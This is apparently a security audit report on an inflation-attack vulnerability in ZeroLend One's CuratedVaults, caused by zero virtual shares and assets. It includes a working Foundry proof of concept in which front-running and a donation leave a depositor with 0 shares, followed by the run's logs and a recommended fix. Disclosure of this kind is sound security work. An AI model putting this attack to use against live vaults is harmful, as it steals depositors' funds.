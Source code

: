 Calm Graphite Ram

High

# CuratedVaults are prone to inflation attacks due to not utilising virtual shares

## Summary
An attacker can frontrun a user's deposit transaction in a new vault pool position, stealing 100% of the depositors underlying token deposit by causing no shares to be minted to the user. This is caused by inflating the value of the shares to cause the user's underlying token deposit amount to round down to be worth 0 shares.

## Vulnerability Detail
[SharesMathLib.sol](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/libraries/SharesMathLib.sol#L32-L36)
```solidity
library SharesMathLib {
  using MathLib for uint256;
...SKIP...
  uint256 internal constant VIRTUAL_SHARES = 0;
...SKIP...
  uint256 internal constant VIRTUAL_ASSETS = 0;
  ```

The [morpho version](https://github.com/morpho-org/morpho-blue/blob/731e3f7ed97cf15f8fe00b86e4be5365eb3802ac/src/libraries/SharesMathLib.sol) that this code is based on has these values set to non-zero, which allows them to be protected against vault inflation attacks. However ZeroLend One has these values set to `0` meaning the vault inflation protection are not in place.

## POC
<details>
<summary>POC</summary>
Add the following code to the bottom of `IntegrationVaultTest::_setUpVault()`:

```solidity
    vm.startPrank(attacker);
    loanToken.approve(address(vault), type(uint256).max);
    collateralToken.approve(address(vault), type(uint256).max);
    vm.stopPrank();

    // ERC4626Test context address, as vm.startPrank does not change the context msg.sender in the test file
    vm.startPrank(0x50EEf481cae4250d252Ae577A09bF514f224C6C4);
    loanToken.approve(0xC8011cB77CC747B5F30bAD583eABfb522Be25712, type(uint256).max); // market where we will be sending donation
    collateralToken.approve(0xC8011cB77CC747B5F30bAD583eABfb522Be25712, type(uint256).max);
    vm.stopPrank();
```

Declare the attacker address in `BaseVaultTest.sol` contract under the other addresses:

```solidity
address internal attacker = makeAddr('attacker');
```

Add the following function to `ERC4626Test.sol`:
```solidity
  function testVaultInflationAttack() public {
    uint256 attackerAssets = 1e18+1;
    uint256 attackerDonation = 1e18;
    uint256 supplierAssets = 1e18;

    loanToken.mint(attacker, attackerAssets);
    loanToken.mint(supplier, supplierAssets);

    /// attacker front-run supplier
    loanToken.mint(0x50EEf481cae4250d252Ae577A09bF514f224C6C4, attackerDonation); // ERC4626Test context will perform the donation as vm.startPrank isn't changing msg.sender to attacker
    allMarkets[0].supplySimple(address(loanToken), address(vault), attackerDonation, 0); // supply vault market position
    console.log("attacker donates assets:", attackerDonation);

    vm.prank(attacker);
    uint256 attackerShares = vault.deposit(attackerAssets, attacker);
    console.log("attacker deposits underlying:", attackerAssets);
    console.log("attacker shares:", attackerShares);
    loanToken.mint(address(vault), 1e18); // same as attacker transfering, but having issue with foundry
    // attacker donation
    
    /// supplier deposit transaction
    vm.prank(supplier);
    uint256 supplierShares = vault.deposit(supplierAssets, supplier);
    console.log("supplier deposits underlying:", supplierAssets);
    console.log("supplier shares:", supplierShares);

    console.log("vault underlying:", vault.totalAssets());
    console.log("vault shares:", vault.totalSupply());
  }
```
</details>

```solidity
Logs:
  attacker donates assets: 1000000000000000000
  attacker deposits underlying: 1000000000000000001
  attacker shares: 1
  supplier deposits underlying: 1000000000000000000
  supplier shares: 0
  vault underlying: 3000000000000000001
  vault shares: 1
```

## Impact

As seen from the POC logs the depositor is minted 0 shares, and the attacker controls the singular share of the vault allowing them to redeem the share and get back their `2e18+1` attack funds and `1e18` of the supplier's funds. This is a clear loss of funds due to an inflation attack, leading to a High risk vulnerability as each vault will be vulnerable to this risk due to not utilising the Morpho vault inflation protections.

## Code Snippet

[SharesMathLib.sol](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/libraries/SharesMathLib.sol#L32-L36)

## Tool used

Foundry and Manual Review

## Recommendation

Utilise the same values as Morpho for `VIRTUAL_SHARES` and `VIRTUAL_ASSETS`:
```solidity
library SharesMathLib {
    using MathLib for uint256;

    /// @dev The number of virtual shares has been chosen low enough to prevent overflows, and high enough to ensure
    /// high precision computations.
    /// @dev Virtual shares can never be redeemed for the assets they are entitled to, but it is assumed the share price
    /// stays low enough not to inflate these assets to a significant value.
    /// @dev Warning: The assets to which virtual borrow shares are entitled behave like unrealizable bad debt.
    uint256 internal constant VIRTUAL_SHARES = 1e6;

    /// @dev A number of virtual assets of 1 enforces a conversion rate between shares and assets when a market is
    /// empty.
    uint256 internal constant VIRTUAL_ASSETS = 1;
```